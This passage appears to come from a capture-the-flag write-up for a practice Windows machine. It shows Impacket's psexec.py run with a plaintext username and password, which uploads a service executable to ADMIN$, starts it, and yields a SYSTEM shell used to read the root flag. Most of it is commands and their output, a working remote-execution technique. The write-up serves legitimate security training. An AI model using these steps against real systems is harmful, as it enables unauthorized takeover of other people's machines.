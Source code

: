 ### Shell

Now I can use many different ways to get a shell. I'll take a simple
`psexec.py`:



    root@kali# psexec.py 'anon:p3nT3st!@10.10.10.152'
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.152.....
    [*] Found writable share ADMIN$
    [*] Uploading file tbwyLJgn.exe
    [*] Opening SVCManager on 10.10.10.152.....
    [*] Creating service PdOp on 10.10.10.152.....
    [*] Starting service PdOp.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system



From there, I can grab `root.txt`:



    C:\Users\Administrator\Desktop>type root.txt
    3018977f...







